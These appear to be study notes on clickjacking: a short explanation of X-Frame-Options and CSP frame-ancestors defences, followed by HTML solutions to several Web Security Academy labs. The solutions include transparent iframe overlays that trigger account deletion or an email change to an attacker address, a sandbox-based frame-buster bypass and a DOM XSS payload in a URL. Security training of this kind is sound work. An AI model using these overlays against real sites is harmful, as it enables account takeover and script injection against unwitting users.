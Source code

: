 # Clickjacking (UI dressing)
Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.

## Prevention: X-Frame-Options
The header provides the website owner with control over the use of iframes or objects:
- `X-Frame-Options: deny`: prohibit the inclusion of a web page within a frame.
- `X-Frame-Options: sameorigin`: allow inclusion from same origin pages.
- `X-Frame-Options: allow-from https://normal-website.com`: allow inclusion in specific website

## Prevention: Content Security Policy (CSP)
The CSP provides the client browser with information about permitted sources of web resources that the browser can apply to the detection and interception of malicious behaviors.
- `Content-Security-Policy: frame-ancestors 'none` $\approx$ `X-Frame-Options: deny`
- `Content-Security-Policy: frame-ancestors 'self` $\approx$ `X-Frame-Options: sameorigin`
- `Content-Security-Policy: frame-ancestors normal-website.com;` $\approx$ `X-Frame-Options: allow-from https://normal-website.com`

### LAB: Basic clickjacking with CSRF token protection
Make the `Click me` button appears on top of the `Delete account` button

    <style>
        iframe {
            position:relative;
            width:700px ;
            height: 500px ;
            opacity: 0.0001;
            z-index: 2;
        }
        div {
            position:absolute;
            top:490px;
            left:90px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a7f00fb0434b60680eaadca00cc00c2.web-security-academy.net/my-account"></iframe>

### LAB: Clickjacking with form input data prefilled from a URL parameter
Same as above Lab but add the parameter: `email=hacker@attacker-website.com`

    <style>
        iframe {
            position:relative;
            width:700px;
            height: 500px;
            opacity: 0.1;
            z-index: 2;
        }
        div {
            position:absolute;
            top:450px;
            left:80px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a0a00040456e761804f8a7b00270058.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>

### LAB: Clickjacking with a frame buster script
The sandbox attribute enables an extra set of restrictions for the content in the iframe.
When the sandbox attribute is present, and it will:
- treat the content as being from a unique origin
- block form submission
- block script execution
- disable APIs
- prevent links from targeting other browsing contexts
- prevent content from using plugins (through `<embed>`, `<object>`, `<applet>`, or other)
- prevent the content to navigate its top-level browsing context
- block automatically triggered features (such as automatically playing a video or automatically focusing a form control)

The value of the sandbox attribute can either be empty (then all restrictions are applied), or a space-separated list of pre-defined values that will REMOVE the particular restrictions.

Use `sandbox="allow-forms"` to only allow form submission:

    <style>
        iframe {
            position:relative;
            width:700px;
            height: 500px;
            opacity: 0.0001;
            z-index: 2;
        }
        div {
            position:absolute;
            top:450px;
            left:80px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a66008a03005e8f81c370a5007400a8.web-security-academy.net/my-account?email=hacker@attacker-website.com" sandbox="allow-forms"></iframe>

### LAB: Exploiting clickjacking vulnerability to trigger DOM-based XSS
Take advantage of the XSS at the `Name` input.

    <head>
        <style>
            iframe {
            position: relative;
            width: 700px;
            height: 900px;
            opacity: 0.0001;
            z-index: 2;
            }
            div {
            position: absolute;
            top: 795px;
            left: 80px;
            z-index: 1;
            }
        </style>
    </head>
    <body>
        <iframe
            src="https://0ac70017037061ef80b73f1700e2006f.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=abc@a.com&subject=ac&message=a"
        ></iframe>
        <div>Click me</div>
    </body>

### LAB: Multistep clickjacking

    <head>
        <style>
            iframe {
                position: relative;
                width: 700px;
                height: 700px;
                opacity: 0.1;
                z-index: 2;
            }
            #div1 {
                position: absolute;
                top: 500px;
                left: 50px;
                z-index: 1;
            }
            #div2 {
                position: absolute;
                top: 290px;
                left: 200px;
                z-index: 1;
            }
        </style>
    </head>
    <body>
        <iframe
            src="https://0a51002b03ecfd118384ebfc00bf006d.web-security-academy.net/my-account"
        ></iframe>
        <div id="div1">Click me first</div>
        <div id="div2">Click me next</div>
    </body>
